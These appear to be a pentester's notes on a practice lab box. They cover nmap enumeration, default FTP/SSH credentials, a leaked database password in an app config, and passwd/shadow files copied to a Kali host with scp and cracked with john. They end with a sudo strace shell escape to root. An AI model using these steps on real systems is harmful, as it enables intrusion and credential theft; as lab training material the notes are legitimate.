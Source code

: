 nmap scan 
nmap -p- -sV -sC -Pn 192.168.102.110 --open
port 21 ftp enabled
tried with anonymous not allowed
tried with ftp ftp, successful
empty ftp
no permission to upload
gobuster common
gobuster big
tried ssh with ftp ftp
got local flag
sudo -l for ftp nothing
uploaded linpeas
linpeas indicated passwd and backup file in /mnt/backup/etc
copied hashes of root lisa and ftp to kali in passwd.txt and shadow.txt
unshadow passwd.txt shadow.txt > unshadowed.txt 
used john with rockyou.txt for cracking hashes










	
	21
		uname - ftp
		pass - ftp
		but nothing after, hangs, no output
			got it, but ftp is empty, probably for file upload and accessing through web or maybe there is another ftp user
			permission denied for uploading files on ftp
			
		
	22
		ssh with ftp/ftp successfull
	53 domain
	80
		blank home page
		Apache 2.4.52 ubuntugobuster with common, big and medium no results
	Privesc
		3306 on localhost
			APP_KEY=base64:yN/2x7bTc/KG/T0BZvL8s1W4N4+Y87PXRvJm8iPWzE=
			APP_DEBUG=true
			APP_URL=http://localhost
			DB_CONNECTION=mysql
			DB_HOST=127.0.0.1
			DB_PORT=3306
			DB_DATABASE=creds
			DB_USERNAME=root
			DB_PASSWORD=Strong.DB?Password

		users clay, lisa
		/home/lisa/.bash_history
		/home/lisa/.mysql_history
		/mnt/backup/etc/adduser.conf
		passwd and shadow file /mnt/backup/etc
		scp /mnt/backup/etc/passwd kali@192.168.49.102:.
		john --wordlist=/usr/share/wordlists/rockyou.txt unshade.txt --format=crypt
		lisa peanut.
		sudo -l
		sudo strace -o /dev/null /bin/sh





